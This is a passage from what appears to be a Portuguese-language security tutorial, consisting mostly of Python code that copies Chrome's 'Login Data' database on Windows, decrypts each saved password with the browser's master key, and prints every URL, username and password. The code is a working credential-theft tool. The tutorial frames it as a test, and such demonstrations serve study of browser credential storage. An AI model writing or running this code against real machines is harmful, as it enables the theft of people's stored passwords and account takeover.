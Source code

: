 ```python
        cifra = gera_cifra(key, pw)
        pass_decrypt = decrypt_payload(cifra, payload)
        pass_decrypt = pass_decrypt[:-16].decode()
        return pass_decrypt
    except:
        return "Chrome < 80"


key = master()
db = path + r"Default\Login Data"

# cria uma copia do db, caso o Chrome esteja aberto
shutil.copy2(db, "database.db")

# conecta na copia do database
connect = sqlite3.connect("database.db")
cursor = connect.cursor()

try:
    cursor.execute("select action_url, username_value, password_value from logins")
    for i in cursor.fetchall():
        url = i[0]
        user = i[1]
        password = i[2]
        password = decrypt_pwd(password, key)
        if len(user) > 0:
            print("URL: " + url + "\nUser: " + user + "\nPassword: " + password + "\n\n")
except Exception as e:
    pass

# finaliza a conexao com o database
cursor.close()
connect.close()

# remove a copia do db
try:
    os.remove("database.db")
except Exception as e:
    pass
```

Com o script pronto, o teste pode ser feito no Windows.

<center><img src="/img/std/dojo/dojo-12.png"></center>
